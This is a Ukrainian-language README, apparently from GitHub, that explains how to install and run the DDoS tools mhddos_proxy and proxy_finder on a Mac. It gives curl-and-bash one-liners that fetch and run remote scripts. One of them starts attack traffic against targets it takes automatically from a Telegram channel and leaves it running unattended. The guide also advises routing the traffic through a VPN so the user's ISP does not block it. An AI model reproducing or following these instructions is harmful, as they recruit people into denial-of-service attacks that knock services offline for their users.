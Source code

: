 # Інструкції встановлення proxy_finder на Mac


❗️Треба встановити супер-швидкий та стабільний VPN, щоб ваш провайдер не різав трафік через підключення до багатьох ІР(проксі):
https://auto-ddos.notion.site/VPN-5e45e0aadccc449e83fea45d56385b54

Якщо ви будете без ВПН, то у вас взагалі може попасти інтернет на роутері, як було у мене, бо провайдери не полюбляють коли з їх ІР йде трафік на велику кількість інших ІР(проксі)

Інші ВПН теж можуть не підійти, бо вони можуть відключатися 

1. [**Запуск за допомогою авто-оновлюваного bash-скрипта, який сам завантажить усі необхідні файли, та самостійно буде завантажувати оновлення**](#1-%D0%B7%D0%B0%D0%BF%D1%83%D1%81%D0%BA-%D0%B7%D0%B0-%D0%B4%D0%BE%D0%BF%D0%BE%D0%BC%D0%BE%D0%B3%D0%BE%D1%8E-%D0%B0%D0%B2%D1%82%D0%BE-%D0%BE%D0%BD%D0%BE%D0%B2%D0%BB%D1%8E%D0%B2%D0%B0%D0%BD%D0%BE%D0%B3%D0%BE-bash-%D1%81%D0%BA%D1%80%D0%B8%D0%BF%D1%82%D0%B0-%D1%8F%D0%BA%D0%B8%D0%B9-%D1%81%D0%B0%D0%BC-%D0%B7%D0%B0%D0%B2%D0%B0%D0%BD%D1%82%D0%B0%D0%B6%D0%B8%D1%82%D1%8C-%D1%83%D1%81%D1%96-%D0%BD%D0%B5%D0%BE%D0%B1%D1%85%D1%96%D0%B4%D0%BD%D1%96-%D1%84%D0%B0%D0%B9%D0%BB%D0%B8-%D1%82%D0%B0-%D1%81%D0%B0%D0%BC%D0%BE%D1%81%D1%82%D1%96%D0%B9%D0%BD%D0%BE-%D0%B1%D1%83%D0%B4%D0%B5-%D0%B7%D0%B0%D0%B2%D0%B0%D0%BD%D1%82%D0%B0%D0%B6%D1%83%D0%B2%D0%B0%D1%82%D0%B8-%D0%BE%D0%BD%D0%BE%D0%B2%D0%BB%D0%B5%D0%BD%D0%BD%D1%8F)  
2. [**Спосіб все-в-одному - авто-оновлювані mhddos_proxy та proxy_finder в одному скрипті**](#2-%D1%81%D0%BF%D0%BE%D1%81%D1%96%D0%B1-%D0%B2%D1%81%D0%B5-%D0%B2-%D0%BE%D0%B4%D0%BD%D0%BE%D0%BC%D1%83---%D0%B0%D0%B2%D1%82%D0%BE-%D0%BE%D0%BD%D0%BE%D0%B2%D0%BB%D1%8E%D0%B2%D0%B0%D0%BD%D1%96-mhddos_proxy-%D1%82%D0%B0-proxy_finder-%D0%B2-%D0%BE%D0%B4%D0%BD%D0%BE%D0%BC%D1%83-%D1%81%D0%BA%D1%80%D0%B8%D0%BF%D1%82%D1%96)    

Якщо виникли будь-які проблеми на будь-якому етапі пишіть в телеграм: @brainqdead

# 1. Запуск за допомогою авто-оновлюваного bash-скрипта, який сам завантажить усі необхідні файли, та самостійно буде завантажувати оновлення
1) Заходимо в Launchpad, щоб відкрити термінал:  
![image](https://user-images.githubusercontent.com/74729549/167870744-564a23ad-966d-430c-8fe1-5557b22df9ff.png)  
2) Шукаємо terminal
![image](https://user-images.githubusercontent.com/74729549/167871196-714ccf87-42a0-458a-acb9-fb1cddf0d0da.png)
3) Запускаємо Термінал
![image](https://user-images.githubusercontent.com/74729549/167871258-0a24e1fd-0c87-42c3-ace1-2d32d8120b75.png)
4) Запускаємо скрипт, який сам встановить необхідні програми: Brew, Python, Git, доп. засоби Баш'у (можливо попросить ввести пароль для установки, 10 Гб вільного місця на диску та натиснути ENTER, щоб продовжити завантаження - тому слідкуйте уважно за виконанням скрипта при першому запуску), та після установки сам запустить proxy_finder:  
```shell
curl -LO https://raw.githubusercontent.com/porthole-ascend-cinnamon/proxy_finder/main/auto_runner_mac.sh && bash auto_runner_mac.sh 2500
```
де 2500 можна замінити на будь-яке значення від 1 до 10000, але **ми рекомендуємо саме 2500, які стоять за замовчуванням**  
Зупинити скрипт можна натиснувши Ctrl+C (бажано пару разів), або якщо не спрацює - закрити вікно терміналу  


### 2. Спосіб все-в-одному - авто-оновлювані mhddos_proxy та proxy_finder в одному скрипті
1) Відкрити Термінал, як у пункту вище  
2) Запускаємо скрипт, який сам встановить необхідні програми: Brew, Python, Git, доп. засоби Баш'у (можливо попросить ввести пароль для установки, 10 Гб вільного місця на диску та натиснути ENTER, щоб продовжити завантаження - тому слідкуйте уважно за виконанням скрипта при першому запуску), та після установки сам запустить mhddos_proxy та proxy_finder:    
```shell
curl -LO https://raw.githubusercontent.com/alexnest-ua/auto_mhddos_mac/main/runner.sh && bash runner.sh 2000 2000 -d
```
Більш детально про всі параметри можна почитати тут: https://github.com/alexnest-ua/auto_mhddos_mac - цей скрипт дозволяє запустити одночасно mhddos_proxy та  proxy_finder, який ще й автоматично оновлює не лише себе, а й mhddos_proxy та proxy_finder, та бере актуальні цілі звідси: https://t.me/ddos_separ  
Тому можете запускати його та йти займатися своїми справами, а скрипт зробить все за вас

